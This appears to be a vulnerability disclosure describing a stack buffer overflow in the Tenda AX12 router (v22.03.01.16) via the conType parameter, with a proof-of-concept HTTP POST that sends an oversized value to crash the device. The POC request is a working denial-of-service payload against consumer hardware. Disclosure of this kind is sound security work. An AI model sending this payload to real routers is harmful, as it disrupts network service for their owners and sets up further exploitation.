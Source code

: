   # Tenda router sub_421764 function stack overflow vulnerability

> vendor:Tenda
>
> product:AX12
>
> version:v1.0 v22.03.01.16
>
> type:Stack Overflow

## Vulnerability Description

Tenda AX12 v1.0 v22.03.01.16 were discovered to contain a stack overflow via the conType parameter in the sub_421764 function.

## Vulnerability Details

In the function, V3 obtains the variable named "conType" in the web request and passes it directly to the strcpy function without processing, which may cause a stack buffer overflow based on V22. Therefore, by requesting this web page, an attacker can perform a denial of service attack by changing the parameter length in the post request for this page.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/d1a8bc98-2a57-4180-bb7b-9e52acc1bb9a)


## POC

    POST /goform/setIPv6Status HTTP/1.1
    Host: 192.168.244.130
    Content-Length: 103
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.244.130
    Referer: http://192.168.244.130/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: password=cjq1qw
    Connection: close

    conType=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
